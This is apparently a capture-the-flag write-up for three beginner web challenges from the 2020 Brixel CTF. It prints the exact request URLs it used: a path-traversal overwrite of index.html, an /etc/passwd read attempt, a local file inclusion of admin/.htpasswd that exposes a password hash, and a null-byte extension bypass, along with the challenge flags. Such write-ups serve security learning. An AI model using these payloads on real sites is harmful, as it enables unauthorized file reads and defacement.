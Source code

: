 # 2020 Brixel CTF

Week long beginner friendly ctf taking place December 2020

## Overview


## Internet 15: Dadjokes

**Challenge**

Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?

**Solution**

The link takes you to a site that has clearly been defaced. Looking at the source, there's a comment that says:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
Navigating to /index_backup.html we find that we can submit a new dad joke, or read a dad joke.  Looking at the submit feature, it looks like it includes information about the joke that you are submitting in the URI.
```
http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=test
```
I was most interested in that filename parameter.  Changing that to test.php and then trying to submit gets a clue from the creator:
```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
So we can't create a php file and get code execution, but maybe this is how the attackers defaced the main page? I thought to try to change the filename to index.html
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=test&submit=true
```
This results in a different hint from the creator:
```
You are definitely on the right track here... but what are you trying to accomplish?
```
Thinking back to the challenge, they wanted me to bring back the original dadjokes site. I thought that maybe I needed to include the source for the index_backup.html page. 
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=%3Chtml%3E%3Ctitle%3EDadJokes,%20your%20source%20of%20lame%20dad%20jokes%3C/title%3E%3Cbody%3E%3Cdiv%20align=%22center%22%3E%3Ch1%3EDadJokes%3C/h1%3E%3Chr%3E%3Cimg%20src=%22images/banner.png%22%20alt=%22dadjokes%22%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/read.php%22%3ERead%20dad%20jokes%3C/a%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/submit.php%22%3Esubmit%20your%20own%20jokes%3C/a%3E%3C/div%3E%3C/html%3E&submit=true
```
That worked! We are given the flag after submitting that payload.

**Flag**

```
brixelCTF{lamejoke}
```

## Internet 15: Pathfinders #1
**Challenge**

These f*cking religious sects!

These guys brainwashed my niece into their demeted world of i-readings and other such nonsense.

The feds recently closed their churches, but it seems they are preparing for a new online platform to continue their malicious activities.

can you gain access to their admin panel to shut them down?

Their website is: http://timesink.be/pathfinder/

**Solution**

Navigating to the pathfinders homepage, it is immediately evident that the challenge is going to involve some sort of local file inclusion(LFI).  I assume this, because we have control over the page paremeter in the URL.  Using the members/locations links, the page paremeter changes to members.php and locations.php respectively.  
First thing I tried was to find the passwd file, just to see if there was a LFI vulnerability.
```
http://timesink.be/pathfinder/index.php?page=../../../../../../etc/passwd
```

This results in a hint from the creator, but I guess I'm on the wrong path
```
naughty, naughty! you're only supposed to go after stuff in admin! no back traversing!/
```

Based on that hint, I started trying to find files in the admin folder, starting with the index page for the admin portal:
```
http://timesink.be/pathfinder/index.php?page=admin/index.php
```
This looks like I'm on the right path, but not quite there:
```
There is nothing here! not even bonus points I'm afraid :( you should get the password, not the page.
```
So if I'm trying to find the password, I figured I should look for config files. I first thought I needed to brute force the admin directory, looking for a php file that would contain a password. However, while manually fuzzing the directory I found the solution
```
http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
```


**Flag**

```
#normally you would brute force this, but that is not in scope of this challenge. The flag is: brixelCTF{unsafe_include}
admin:$apr1$941ydmlw$aPUW.gCFcvUbIcP0ptVQF0
```

## Internet 20: Pathfinders #2
**Challenge**

It seems they updated their security. can you get the password for their admin section on their new site?

http://timesink.be/pathfinder2/

oh yeah, let's assume they are running a php version below 5.3.4 here...

**Solution**

This page looks very similar to the previous pathfinder challenge, except there's a new warning at the bottom of the page
```
Due to a recent hacker intrusion, we upgraded our security to only allow for php files to be included.
```

Testing the solution to the previous challenge, we see that it's now filtering any file that doesn't have the '.php' extension
```
file not ending in .php, terminating.
```

Since they hinted that this site is running an outdated version of php, I thought to try including a null byte
```
http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00
```
That still doesn't work, but tacking '.php' onto the end of the null byte gets us the flag!
```
http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php
```

**Flag**

```
Great work! the flag is brixelCTF{outdated_php}
```
